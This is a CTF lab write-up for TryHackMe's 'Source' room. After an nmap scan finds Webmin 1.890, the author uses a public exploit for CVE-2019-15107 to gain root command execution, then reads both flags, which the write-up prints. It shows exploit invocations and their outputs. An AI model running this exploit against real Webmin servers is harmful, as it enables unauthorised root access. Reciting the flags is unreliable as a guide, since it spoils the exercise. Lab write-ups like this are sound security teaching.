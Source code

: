 # Source
**Date:** March 13th 2022

**Author:** j.info

**Link:** [**Source**](https://tryhackme.com/room/source) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>

![](images/source0.png)

<br>

## Objectives
- user.txt flag
- root.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -A -T4 10.10.106.247`

```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

<br>

### Gobuster Scan

No gobuster scan is required for this CTF.

<br>

## Website Digging

Visiting the main page:

![](images/source1.png)

<br>

## CVE-2019-15107

I do a quick search for **webmin exploit** and it looks like there is an RCE effecting Webmin <=1.920 under **CVE-2019-15107**. Since this server is running Webmin version 1.890 we can try this CVE and see if it works for us. 

I find a python script for this CVE on github [**here**](https://raw.githubusercontent.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/master/webmin-1.890_exploit.py)

Looking at the script it exploits a command injection vulnerability in the **password_change.cgi** file. I test it out by running:

`python3 webmin-1.890_exploit.py 10.10.106.247 10000 "which nc"`

```bash
--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ / 
 ___/ // / / ___ |_/ // /|  /  
/____//_/ /_/  |_/___/_/ |_/   
                                       
--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
/bin/nc
</p>
```

It's working, we have RCE on the box.

Let's see which user MiniServ is running under:

`python3 webmin-1.890_exploit.py 10.10.106.247 10000 "id"`

```
--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ / 
 ___/ // / / ___ |_/ // /|  /  
/____//_/ /_/  |_/___/_/ |_/   
                                       
--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
</p>
```

Well, it looks like we're running as root! We can likely get a reverse shell back at this point since nc was there, but I don't even think we need to do that since we should just be able to cat the 2 flags using this script.

I run the script with **ls /home** and see that we have 1 user on the system named **dark**. Listing files in **/home/dark** shows us that the **user.txt** flag is here.

I run the script with **cat /home/dark/user.txt** and get back the flag.

```
THM{SUPPLY_CHAIN_COMPROMISE}
```

I then run the script with **cat /root/root.txt** and also get back the flag.

```
THM{UPDATE_YOUR_INSTALL}
```

<br>

And with that we've completed this CTF! This was definitely a short one.

![](images/source2.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap**
- Using **CVE-2019-15107** against a vulnerable **MiniServ** server

<br>

Many thanks to:
- [**DarkStar7471**](https://tryhackme.com/p/DarkStar7471) for creating this CTF
- **TryHackMe** for hosting this CTF.

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)